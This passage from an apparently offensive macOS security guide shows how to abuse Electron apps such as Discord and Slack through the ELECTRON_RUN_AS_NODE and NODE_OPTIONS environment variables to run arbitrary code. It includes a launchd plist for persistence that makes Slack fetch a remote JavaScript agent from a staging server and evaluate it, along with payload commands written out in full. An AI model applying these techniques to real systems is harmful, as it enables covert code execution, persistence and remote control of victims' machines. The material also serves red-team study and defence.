 ## RCE with ELECTRON_RUN_AS_NODE

According to [**the docs**](https://www.electronjs.org/docs/latest/api/environment-variables#electron_run_as_node), if this env variable is set, it will start the process as a normal Node.js process.

```bash
# Run this
ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
# Then from the nodeJS console execute:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```

> [!CAUTION]
> If the fuse **`RunAsNode`** is disabled the env var **`ELECTRON_RUN_AS_NODE`** will be ignored, and this won't work.

### Injection from the App Plist

As [**proposed here**](https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks/), you could abuse this env variable in a plist to maintain persistence:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>EnvironmentVariables</key>
    <dict>
           <key>ELECTRON_RUN_AS_NODE</key>
           <string>true</string>
    </dict>
    <key>Label</key>
    <string>com.xpnsec.hideme</string>
    <key>ProgramArguments</key>
    <array>
        <string>/Applications/Slack.app/Contents/MacOS/Slack</string>
        <string>-e</string>
        <string>const { spawn } = require("child_process"); spawn("osascript", ["-l","JavaScript","-e","eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://stagingserver/apfell.js')), $.NSUTF8StringEncoding)));"]);</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
```

## RCE with `NODE_OPTIONS`

You can store the payload in a different file and execute it:

```bash
# Content of /tmp/payload.js
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator');

# Execute
NODE_OPTIONS="--require /tmp/payload.js" ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
```
